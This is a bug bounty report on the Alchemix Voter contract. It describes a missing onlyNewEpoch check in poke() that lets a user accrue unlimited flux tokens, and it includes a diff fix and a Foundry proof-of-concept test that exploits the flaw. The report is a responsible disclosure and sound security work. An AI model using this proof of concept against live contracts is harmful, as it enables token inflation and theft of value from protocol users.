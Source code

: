 # 31375 - \[SC - Critical] Lack of Access control in poke function allows ...

Submitted on May 17th 2024 at 17:45:04 UTC by @hulkvision for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31375

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:

* A user can mint unlimited flux token breaking the invariant `A user should never be able to claim more rewards than they have earned`

## Description

## Brief/Intro

Lack of Access control in `poke()` function allows unlimited accrual of flux token thus breaking assumed invariants set by the team.

## Vulnerability Details

In `Voter.sol` users can perform action like vote, reset or poke , when these actions are performed an external call to `FluxToken.sol` `accrueFlux` function is called which accrue unclaimed flux for a given veALCX . While `vote` and `reset` function had modifier called `onlyNewEpoch` which prevented calling `accrueFlux` function multiple times in an epoch. `poke` function was also calling `accrueFlux` function but in this function no access control modifier `onlyNewEpoch` was used which allowed this function to be called multiple time in an epoch.

In `Voter.sol`

```solidity
function poke(uint256 _tokenId) public {
    //...//
        _vote(_tokenId, _poolVote, _weights, _boost); //internal _vote is called 
    }
function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
      //...
        IFluxToken(FLUX).accrueFlux(_tokenId);  // flux is accrued here
        uint256 totalPower = (IVotingEscrow(veALCX).balanceOfToken(_tokenId) + _boost);
}
```

## Impact Details

* This vulnerability is breaking a invariant set by the team , as a user can accrue unlimited flux, they can use the accrued flux to boost their voting power each epoch thus getting more voting power than they should have.

> A user should never be able to vote with more power than they have

* A user can mint unlimited flux token and can unlock their escrowed position at any time they want even before then are supposed to unlock or can sell those flux token in the marketplace
* Due to unlimited supply of flux token the value of flux token will drop significantly.

## References

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195-211 https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L423

## Possible fix

```diff
+ bool public hasPoked; // create a state variable
function poke(uint256 _tokenId) public {
+      hasPoked = true;
        uint256 _boost = 0;

        //...//

        _vote(_tokenId, _poolVote, _weights, _boost);
+      hasPoked = false;
    }
function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
        //.../
+        if (!hasPoked) { // when poke is called flux accrual will not happen.
+           IFluxToken(FLUX).accrueFlux(_tokenId); 
+        }
        //...//
}
```

## Proof of Concept

* Add this function to `src/test/Voting.t.sol` and run the test `forge test --mt testPocAccrueFluxMultipleTimes --rpc-url $RPC_URL -vvvv`

```
function testPocAccrueFluxMultipleTimes() public {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, true);
        address[] memory pools = new address[](1);
        pools[0] = alETHPool;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        hevm.startPrank(admin);
        voter.vote(tokenId, pools, weights, 0);
        voter.poke(tokenId); // 1st time
        console.log("unclaimed flux balance",flux.getUnclaimedFlux(tokenId));
        voter.poke(tokenId); // 2nd time
        uint256 unclaimedFlux_1 = flux.getUnclaimedFlux(tokenId);
        voter.poke(tokenId); // 3rd time
        uint256 unclaimedFlux_2 = flux.getUnclaimedFlux(tokenId);
        console.log("increased flux balance",flux.getUnclaimedFlux(tokenId));
        assertGt(unclaimedFlux_2,unclaimedFlux_1);
    }
```
